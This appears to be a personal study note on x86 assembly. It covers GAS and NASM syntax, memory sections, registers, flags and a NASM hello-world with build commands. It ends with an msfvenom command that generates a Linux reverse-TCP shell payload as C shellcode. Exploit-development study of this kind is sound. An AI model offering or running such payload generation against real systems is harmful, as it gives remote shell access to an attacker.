 ## Syntax variants 
```
GAS  - uses the AT&T syntax a relatively archaic syntax
NASM - uses the Intel syntax
```

## GAS example (AT&T)

A simple program that exits 2
```asm
.section .data
.section .text
.globl _start

_start:
    movl $1, %eax
    movl $2, %ebx
    int $0x80
```

use the as compiler, and ld linker
```bash
as -o exit.o exit.s
ld -o exit exit.o 
```


## NASM example (Intel)

A simple program that exits 2
```nasm
section .data
section .text
global _start

_start:
    mov eax,1
    mov ebx,2
    int 80h
```

use the nasm compiler, and ld linker
```bash
nasm -f elf32 -o exit.o exit.asm
ld -m elf_i386 -o exit exit.o 
```

## Sections and entry point
```nasm
section.data      ; stores constants 
section.bss       ; stores variables
section.text      ; stores the actual code
```
```nasm
global _start     ; tells the kernel where the program entry point is, and it's a label _start 
_start            ; the label where the program execution is pointed to 
```

## Statements 

Statements are as follows, the fields in square brackets are optional
```nasm
[label]   mnemonic   [operands]   [;comment]
```

## Mnemonics

A mnemonic is basically an assembly verb
```nasm
INC   ; Increment a value in a register
MOV   ; Transfer a value to a register
ADD   ; Add the content of a register to another register
AND   ; perform AND operation between registers
```

## Memory Segments

Data Segment: 
```nasm
section .data ; constants - static memory section, stores constants for the program
section .bss  ; variables - static memory section, contains buffers,  
              ; for variables to be declared later in the execution of the program
              ; bss stands for block starting symbol
```

Code Segment:
```nasm
section .text ; static memory section that stores the instruction codes of the program
```

Stack Segment:
```nasm
; the stack contains the data, values passed, and return addresses of
; functions, procedures, and subroutines within the program
; this is a stack and as such this is a LIFO structure
; it also generally has a static per program size
```

![memory-segments.png](memory-segments.png)    

![stack.png](stack.png)  


## Data Registers

![data-registers.jpg](data-registers.jpg)  

```
There are 4 32 bit data registers, that can be used as: 
Full-32 bit:           EAX, EBX, ECX, EDX
16-bit lower halves:    AX,  BX,  CX,  DX
8-bit higher halves:    AH,  BH,  CH,  DH
8-bit lower halves:     AL,  BL,  CL,  DL
```
```
A -> Accumulator - primary accumulator, used in i/o and most arithmecal operations 
B -> Base        - could be used in indexed addressing
C -> Counter     - stores the loop counter in iterative operations
D -> Data        - also used in i/o
```

## Pointer Registers

![pointer-registers.jpg](pointer-registers.jpg)  

```
There are 3 32 bit pointer registers:
Full-32 bit:           EIP, ESP, EBP
16-bit lower halves:    IP,  SP,  BP
```
```
IP -> Instruction Pointer - stores the offset address of the next instruction
SP -> Stack Pointer       - stores the offset within the program stack
BP -> Base Pointer        - stores param variables passed to a subroutine
```


## Index Registers 

![index-registers.jpg](index-registers.jpg)  

```
There are 2 32 bit index registers:
Full-32 bit:           ESI, EDI
16-bit lower halves:    SI,  DI
```
```
SI -> Source Index      - used as a source index for string operations 
DI -> Destination Index - used as a destination index for string operations 
```

## Control Registers

The 32-bit instruction pointer register (IP) and the 32-bit flag register combined are considered as the control registers.

![flag-register.png](flag-register.png)

Flag register:
```
OF - Overflow Flag
DF - Direction Flag
IF - Interrupt Flag
TF - Trap Flag
SF - Sign Flag
ZF - Zero Flag
AF - Auxiliary Carry Flag
PF - Parity Flag
CF - Carry Flag
```

## Segment Registers

```
Segments are specific areas defined in a program for containing: 
data, code and stack. There are three main segments
```
```
CS -> Code Segment   - 16-bit - contains the starting address of the code segment
DS -> Data Segment   - 16-bit - contains the starting address of the data segment
SS -> Stack Segment  - 16-bit - contains the starting addresss of the stack 
ES -> Extra Segment  - 16-bit - Extra segments 
FS -> Extra Segment  - 16-bit - Extra segments 
GS -> Extra Segment  - 16-bit - Extra segments 
```



## Write Hello World in x86 Intel assembly

```nasm
section .text:

global _start

_start:
    ; as per instructions in the man 2 write page
    mov eax, 0x4              ; use the write syscall -> number 4
    mov ebx, 1                ; use stdout for the fd
    mov ecx, message          ; use the message as the buffer
    mov edx, message_length   ; and supply the length
    int 0x80                  ; interupt the program an run our write syscall

    ; now gracefully exit
    mov eax, 0x1
    mov ebx, 0
    int 0x80

section .data:
    message: db "Hello World!", 0xA  ; db -> define bytes, message is the name of the variable
                                     ; 0xA hex = 10 ordinal = \n char
    message_length equ $-message     ; $- notation will be dynamically interpreted
                                     ; by nasm as the length of the message variale
```

find the docs for what we're talking about
```bash
locate unistd_32.h
man 2 write
man 2 exit 
```

compile
```bash
nasm -f elf32 -o hello-world.o hello-world.asm
ld -m elf_i386 -o hello-world hello-world.o 
```


## Generate shellcode 
```bash
msfvenom \
  -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=1337 \
  --format c \
  --arch x86 \
  --platform linux \
  --bad-chars "\x00\x09\x0a\x20" \
  --out shellcode
```
